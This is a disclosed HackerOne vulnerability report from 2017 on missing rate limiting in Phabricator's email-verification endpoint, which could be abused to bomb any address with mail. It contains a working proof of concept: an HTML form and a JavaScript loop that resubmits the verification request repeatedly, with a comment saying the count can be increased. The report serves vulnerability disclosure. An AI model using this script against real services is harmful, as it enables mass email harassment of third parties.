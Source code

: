 # The mailbox verification API interface is unlimited and can be used as a mailbox bomb

## Report Details
- **Report ID**: 221948
- **URL**: https://hackerone.com/reports/221948
- **State**: Closed
- **Severity**: medium
- **Submitted**: 2017-04-18T16:38:04.383Z
- **Disclosed**: 2017-04-26T10:32:37.997Z

## Reporter
- **Username**: xifengweiyu
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: phabricator

## Vulnerability Information
Here is your keyword: mongoose

- Description:

The API interface in https://admin.phacility.com/settings/user/toma/page/email/ is unlimited and can be used as a mailbox bomb

- Reproduced:

1.register a user and wait for verify email address
2.use my PoC:
```
<form id="myform" action="https://admin.phacility.com/settings/user/toma/page/email/?verify=14295" method="POST" target="_blank">
<input type="text" name="__csrf__" value="B@f3wyama2759fcd6f915746da">
<input type="text" name="__form__" value="1">
<input type="text" name="__dialog__" value="1">
<input type="text" name="verify" value="14295">
<input type="text" name="__submit__" value="true">
<input type="text" name="__wflow__" value="true">
<input type="text" name="__ajax__" value="true">
<input type="text" name="__metablock__" value="3">
</form>
<script>

function interval(func, wait, times){
    var interv = function(w, t){
        return function(){
            if(typeof t === "undefined" || t-- > 0){
                setTimeout(interv, w);
                try{
                    func.call(null);
                }
                catch(e){
                    t = 0;
                    throw e.toString();
                }
            }
        };
    }(wait, times);

    setTimeout(interv, wait);
};

//submit every 2000ms,execute 5 times(you can change this number to execute more times)
interval(function(){
document.getElementById("myform").submit();
},2000,5);
</script>
```
and its `__csrf__` is your token

- Note

Because the email address has not been verified this time,I can write any email address when registration,then I can bomb any people's email box.


## Attachments
- Screen_Shot_2017-04-09_at_3.33.14_PM.png
- Screen_Shot_2017-04-09_at_3.31.28_PM.png
